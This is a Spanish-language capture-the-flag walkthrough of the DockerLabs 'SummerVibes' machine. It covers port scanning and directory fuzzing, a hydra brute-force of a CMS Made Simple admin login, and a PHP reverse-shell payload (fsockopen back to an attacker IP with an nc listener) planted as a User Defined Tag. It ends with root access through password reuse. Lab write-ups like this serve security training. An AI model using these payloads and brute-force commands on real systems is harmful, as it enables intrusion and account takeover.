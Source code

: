 # SummerVibes DockerLabs (Hard)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip summervibes.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh summervibes.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 11:56 EST
Nmap scan report for express.dl (172.17.0.2)
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 d1:19:f1:fa:48:16:af:8a:4a:89:2d:78:89:e9:2d:94 (ECDSA)
|_  256 b8:b7:2e:64:3e:ee:c3:2e:2e:be:99:07:4e:02:4f:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.14 seconds
```

Si inspeccionamos la pagina vemos el siguiente comentario.

```html
<!-- cms made simple is installed here - Access to it - cmsms -->
```

Puede ser que sea el nombre de un directorio, por lo que haremos lo siguiente:

```
URL = http://<IP>/cmsms/
```

Y veremos una pagina web normal, por lo que `fuzzearemos` un poco.

```shell
gobuster dir -u http://<IP>/cmsms/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/cmsms/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/admin                (Status: 200) [Size: 4568]
/assets               (Status: 200) [Size: 2145]
/config.php           (Status: 200) [Size: 0]
/doc                  (Status: 200) [Size: 24]
/index.php            (Status: 200) [Size: 19671]
/lib                  (Status: 200) [Size: 24]
/modules              (Status: 200) [Size: 3397]
/tmp                  (Status: 200) [Size: 1147]
/uploads              (Status: 200) [Size: 1543]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos uno bastante llamativo llamado `admin`, que si entramos en el veremos un login de admin, por lo que le vamos a dar a `Forgot your password?` y pondremos `admin` para saber si el usuario existe, si lo hacemos vemos que existe, por lo que intentaremos fuerza bruta con `hydra` al login:

## Escalate user www-data

### Hydra

```shell
hydra -l admin -P <WORDLIST> <IP> http-post-form "/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-13 12:07:19
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://172.17.0.2:80/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect
[80][http-post-form] host: 172.17.0.2   login: admin   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-13 12:07:21
```

Vemos que hemos encontrado las credenciales, por lo que nos conectaremos a la web con dichas credenciales y entraremos en el panel de `admin` si nos vamos a `extensions` -> `User Definded Tags` -> `Add User Defined Tag`

Veremos un cuadro en el que podremos meter codigo, por lo que meteremos lo siguiente:

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Le ponemos como nombre `shell`.

<figure><img src="../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

Le daremos a `Sumbit`, volvemos a entrar a `shell`, le daremos al boton `Apply` y antes de darle a `run` nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Una vez estando asi, le daremos a `run` en la pagina y cuando volvamos a la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 42832
whoami
www-data
```

### Sanitizacion shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate Privileges

Si reutilizamos la contraseña que encontramos en el panel de la pagina que era `chocolate` con `root`.

```shell
su root
```

Metemos como contraseña `chocolate` y veremos que somo el usuario `root`.
